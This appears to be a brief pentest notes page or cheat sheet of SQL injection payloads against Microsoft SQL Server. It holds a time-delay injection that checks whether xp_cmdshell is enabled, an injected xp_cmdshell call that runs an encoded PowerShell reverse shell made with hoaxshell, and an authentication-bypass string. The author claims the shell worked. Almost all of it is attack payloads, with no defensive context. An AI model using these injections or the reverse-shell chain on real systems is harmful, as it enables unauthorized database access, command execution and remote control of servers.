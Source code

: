 # SQL Payloads

## Payload to Check for xp_cmdshell:
```sql
'; IF EXISTS (SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell' AND value_in_use = 1) WAITFOR DELAY '00:00:05' -- //
```

A five-second delay in the response confirmed its activation. Next, I created a PowerShell payload using hoaxshell:

Hoax Reverse Shell Payload:
```sh
'; EXEC xp_cmdshell 'powershell -e eQBvAHUAcgAtAHAAYQB5AGwAbwBhAGQA...'; -- //
```

Execute it and successfully gain shell access, as you can see in the screenshot.

![img](https://media.licdn.com/dms/image/D4E22AQEMx7xvCP8YLA/feedshare-shrink_1280/0/1714023914371?e=1726099200&v=beta&t=j-GJQ0LxllbbHyNGD2dQGqsx_NFpRnCP_mQxo5z5GCw)

## Auth Bypass
```sql
admin')&password=')+or+30>10/
```
[img](/assets/sqli_auth_bypass.jpeg)
